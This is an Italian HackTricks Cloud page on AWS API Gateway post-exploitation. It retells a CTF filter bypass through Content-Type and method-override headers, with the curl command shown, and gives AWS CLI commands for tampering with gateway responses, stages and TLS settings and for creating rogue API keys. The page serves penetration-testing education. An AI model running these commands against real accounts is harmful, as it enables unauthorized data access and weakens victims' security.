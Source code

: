 # AWS - Sfruttamento post-esecuzione di API Gateway

{% hint style="success" %}
&#x20;Impara e pratica l'Hacking su AWS:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
&#x20;Impara e pratica l'Hacking su GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## API Gateway

Per ulteriori informazioni controlla:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Accesso alle API non esposte

Puoi creare un endpoint in [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) con il servizio `com.amazonaws.us-east-1.execute-api`, esporre l'endpoint in una rete a cui hai accesso (potenzialmente tramite una macchina EC2) e assegnare un gruppo di sicurezza che permetta tutte le connessioni.\
Successivamente, dalla macchina EC2 sarai in grado di accedere all'endpoint e quindi chiamare l'API del gateway che non era stata esposta in precedenza.

### Bypass del passaggio del corpo della richiesta

Questa tecnica è stata trovata in [**questo writeup di CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Come indicato nella [**documentazione di AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) nella sezione `PassthroughBehavior`, per impostazione predefinita, il valore **`WHEN_NO_MATCH`** , quando controlla l'intestazione **Content-Type** della richiesta, passerà la richiesta al backend senza alcuna trasformazione.

Pertanto, nel CTF l'API Gateway aveva un modello di integrazione che **impediva che il flag venisse esfiltrato** in una risposta quando veniva inviata una richiesta con `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Tuttavia, inviare una richiesta con **`Content-type: text/json`** impedirebbe tale filtro.&#x20;

Infine, poiché l'API Gateway consentiva solo `Get` e `Options`, era possibile inviare una query arbitraria a dynamoDB senza alcun limite inviando una richiesta POST con la query nel corpo e utilizzando l'intestazione `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Piani di Utilizzo DoS

Nella sezione **Enumerazione** puoi vedere come **ottenere il piano di utilizzo** delle chiavi. Se hai la chiave e questa è **limitata** a X utilizzi **al mese**, potresti **usarla e causare un DoS**.

La **Chiave API** deve solo essere **inclusa** all'interno di un **intestazione HTTP** chiamata **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:UpdateGatewayResponse` e `apigateway:CreateDeployment` può **modificare una Risposta del Gateway esistente per includere intestazioni personalizzate o modelli di risposta che rivelano informazioni sensibili o eseguono script dannosi**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Divulgazione di informazioni sensibili, esecuzione di script dannosi o accesso non autorizzato alle risorse dell'API.

{% hint style="info" %}
Necessità di test
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:UpdateStage` e `apigateway:CreateDeployment` può **modificare una fase esistente dell'API Gateway per reindirizzare il traffico verso una fase diversa o modificare le impostazioni di caching per ottenere accesso non autorizzato ai dati memorizzati nella cache**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Accesso non autorizzato ai dati memorizzati nella cache, interruzione o intercettazione del traffico API.

{% hint style="info" %}
Necessità di test
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:PutMethodResponse` e `apigateway:CreateDeployment` può **modificare la risposta del metodo di un metodo API Gateway REST esistente per includere intestazioni personalizzate o modelli di risposta che rivelano informazioni sensibili o eseguono script dannosi**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impatto Potenziale**: Divulgazione di informazioni sensibili, esecuzione di script dannosi o accesso non autorizzato alle risorse dell'API.

{% hint style="info" %}
Necessità di test
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:UpdateRestApi` e `apigateway:CreateDeployment` può **modificare le impostazioni dell'API Gateway REST API per disabilitare il logging o cambiare la versione minima di TLS, indebolendo potenzialmente la sicurezza dell'API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impatto Potenziale**: indebolimento della sicurezza dell'API, potenzialmente consentendo l'accesso non autorizzato o l'esposizione di informazioni sensibili.

{% hint style="info" %}
Necessità di test
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un attaccante con le autorizzazioni `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` e `apigateway:CreateUsagePlanKey` può **creare nuove chiavi API, associarle a piani di utilizzo e poi utilizzare queste chiavi per accedere in modo non autorizzato alle API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impatto Potenziale**: Accesso non autorizzato alle risorse dell'API, aggirando i controlli di sicurezza.

{% hint style="info" %}
Necessita di testing
{% endhint %}

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
